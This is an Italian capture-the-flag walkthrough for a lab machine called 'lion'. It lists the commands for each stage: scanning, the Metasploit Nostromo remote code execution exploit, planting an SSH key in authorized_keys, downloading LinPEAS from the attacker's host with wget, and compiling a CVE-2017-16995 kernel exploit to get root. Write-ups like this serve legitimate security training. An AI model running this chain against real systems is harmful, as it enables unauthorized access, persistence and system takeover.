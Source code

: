# lion
partiamo con uno scan 

```bash
nmap lion.thm -sV -sC 
```

troviamo 2 porte interessanti la porta 8080 e la 1337 

avete più possibilità io ho individuato 2 problemi principali di questa web app 
principalmente nostromo usa un paramentro http_verify che permette all'attacante di inviare comandi 
in questo caso vi consiglio di avviare metasploit
```bash
msfconsole
```
tramite questo cercate nostromo 
```bash
search nostromo
```

dovreste vedere una vulnerabilità di questo tipo nostromo 1.9.6 - Remote Code Execution

fate il comando 
```bash
use vulnerabilità trovata
```
aggiungete tutti i campi dell'exploit

fate run 

ed ecco che avremmo una console dove lanciare tutti i comandi che ci servono

i comandi che seguono serviranno per capire con che utente ci troviamo e per creare un chiave ssh che useremo dopo
```bash
id
```
genero una key per l'ssh
```bash
ssh-keygen
```
inserisco la chiave generata al posto di quella che esisteva già e tramite questa mi autorizzo l'accesso all'ssh
```bash
mkdir /home/gloria/.ssh; echo '<il file sshkey.pub>' > /home/gloria/.ssh/authorized_keys
```

tramite l'sshkey generata e salvata sulla nostra macchina facciamo la connessione in ssh

## ssh

```bash
ssh -i sshkey gloria@<lion.thm> -p 1337
```
ottimo siamo sull'ssh andiamo a fare il privesc

## privesc

scarichiamo LinPEAS.sh sulla nostra macchina e passiamolo sulla macchina attaccata

```bash
python3 -m http.server 80
```
comando da eseguire sulla macchina attaccata:
```bash
wget http://vostroip/LinPEAS.sh
```

diamo i giusti permessi allo script
```bash
chmod +x LinPEAS.sh
./LinPEAS.sh
```

il kernel è vulnerabile andiamo ad usare l'exploit 
cve-2017-16995
scarichiamolo e andiamo a compilare sulla macchina per evitare corruzioni
fate i passaggi come se voleste passare linpeas.
una volta che il file cve-2017-16995.c si trova sulla macchina eseguite questo comando per compilarlo
```bash
gcc --static cve-2017-16995.c -o cve-2017-16995 && chmod +x cve-2017-16995 
```

avviatelo e il gioco e fatto!
```bash
./cve-2017-16995
```




